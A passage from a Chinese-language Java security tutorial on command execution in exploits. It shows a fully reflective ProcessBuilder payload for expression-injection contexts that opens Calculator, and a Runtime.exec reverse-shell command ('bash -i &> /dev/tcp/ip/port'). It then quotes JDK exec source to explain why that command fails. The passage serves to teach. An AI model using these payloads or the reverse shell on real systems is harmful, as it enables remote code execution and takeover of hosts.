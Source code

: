 因为该Payload运用了强制类型转换，有时候我们利用漏洞的时候（在表达式上下文中）是没有这种语法的。完全反射形式为：

```java
Class c2 = Class.forName("java.lang.ProcessBuilder");
c2.getDeclaredMethod("start").invoke(c2.getConstructor(String[].class).newInstance(new String[][]{{"open","-a","Calculator.app"}}));
```

P神的Java安全漫谈写的实在太好了，呜呜呜大段直接抄了P神的内容。

#### 反弹shell

这里顺便讨论下exec执行命令时可能出现的失效问题，我们可能会试图通过以下的方法来执行反弹shell：

```java
Runtime runtime = Runtime.getRuntime();
runtime.exec("bash -i &> /dev/tcp/ip/port 0>&1");
```

但是实际上这种方法并不能成功的反弹shell，我们来仔细探究下原因，看下exec函数的内部实现：

```java
public Process exec(String command) throws IOException {
        return exec(command, null, null);
}

public Process exec(String command, String[] envp) throws IOException {
        return exec(command, envp, null);
}

public Process exec(String command, String[] envp, File dir)
        throws IOException {
        if (command.length() == 0)
            throw new IllegalArgumentException("Empty command");

        StringTokenizer st = new StringTokenizer(command);
        String[] cmdarray = new String[st.countTokens()];
        for (int i = 0; st.hasMoreTokens(); i++)
            cmdarray[i] = st.nextToken();
        return exec(cmdarray, envp, dir);
}

public Process exec(String cmdarray[]) throws IOException {
        return exec(cmdarray, null, null);
}

public Process exec(String[] cmdarray, String[] envp) throws IOException {
        return exec(cmdarray, envp, null);
}

public Process exec(String[] cmdarray, String[] envp, File dir)
        throws IOException {
        return new ProcessBuilder(cmdarray)
            .environment(envp)
            .directory(dir)
            .start();
}
```
